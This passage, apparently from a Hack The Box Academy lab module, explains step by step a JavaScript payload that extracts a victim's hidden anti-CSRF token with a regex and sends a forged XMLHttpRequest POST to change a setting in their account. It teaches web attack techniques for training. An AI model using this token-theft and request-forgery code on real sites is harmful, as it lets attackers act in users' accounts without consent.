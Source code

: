 The script snippet above defines a variable called _token_, which gets the value of _responseText_ from the page we specified earlier in our request. `/name="csrf" type="hidden" value="(\w+)"/)[1];` looks for a hidden input field called _csrf_ and \w+ matches one or more alphanumeric characters. In some cases, this may be different, so let us look at how you can identify the name of a hidden value or check if it is actually "CSRF".

Open Web Developer Tools (Shift+Ctrl+I in the case of Firefox) and navigate to the _Inspector_ tab. We can use the _search_ functionality to look for a specific string. In our case, we look for _csrf_, and we get a result.

![image](https://academy.hackthebox.com/storage/modules/153/57.png)

**Note**: If no result is returned and you are certain that CSRF tokens are in place, look through various bits of the source code or copy your current CSRF token and look for it through the search functionality. This way, you may uncover the input field name you are looking for. If you still get no results, this doesn't mean that the application employs no anti-CSRF protections. There could be another form that is protected by an anti-CSRF protection.

Code: javascript

```javascript
var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
```

The script snippet above constructs the HTTP request that we will send through a [XMLHttpRequest](https://blog.0daylabs.com/2014/09/13/ajax-everything-you-should-know-about-xmlhttprequest/) object.

Code: javascript

```javascript
changeReq.open('post', '/app/change-visibility', true);
```

In the script snippet above, we change the method from GET to POST. The first request was to move us to the targeted page and the second request was to perform the wanted action.

Code: javascript

```javascript
changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
```

The script snippet above is setting the Content-Type to _application/x-www-form-urlencoded_.

Code: javascript

```javascript
changeReq.send('csrf='+token+'&action=change');
```

The script snippet above sends the request with one param called _csrf_ having the value of the _token_ variable, which is essentially the victim's CSRF token, and another parameter called _action_ with the value _change_. These are the two parameters that we noticed while inspecting the targeted request through Burp.

![image](https://academy.hackthebox.com/storage/modules/153/56.png)
